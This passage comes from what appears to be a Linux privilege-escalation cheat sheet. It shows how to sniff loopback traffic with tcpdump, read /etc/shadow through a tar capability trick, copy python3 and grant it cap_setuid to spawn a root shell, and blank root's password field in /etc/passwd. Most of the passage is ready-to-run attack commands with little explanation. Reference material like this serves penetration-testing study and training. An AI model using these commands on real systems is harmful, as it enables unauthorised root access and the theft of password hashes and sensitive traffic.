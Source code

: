 ### cap_net_raw

```bash
# Tcpdump - we can sniff sensitive information by running tcpdump for a while.
tcpdump -i lo -A
```

### cap_dac_read_search

Bypass file read permission checks and directory read and execute permission checks.

```bash
# Tar (https://gtfobins.github.io/gtfobins/tar/)
LFILE=/etc/shadow
tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
```

<br />

## Set Capabilities

```sh
setcap cap_setuid+ep /path/to/binary
```

If you found the **setcap** with **SUID**, you can manipulate commands like Python.

```sh
cp /usr/bin/python3 /home/<current-user>/python3
setcap cap_setuid+ep /home/<current-user>/python3
```

Then get a root shell.

```sh
/home/<current-user>/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

<br />

## Override /etc/passwd, /etc/shadow

### /etc/passwd

If we have write permission of **`/etc/passwd`** by some means, we can modify this file as desired for us. First check the content of that file with **`cat /etc/passwd`**.

```bash
root:x:0:0:root:/root:/bin/sh
...
```

By removing this `x` character in the root line, we can become root without password. Below

```bash
root::0:0:root:/root:/bin/sh
...
```
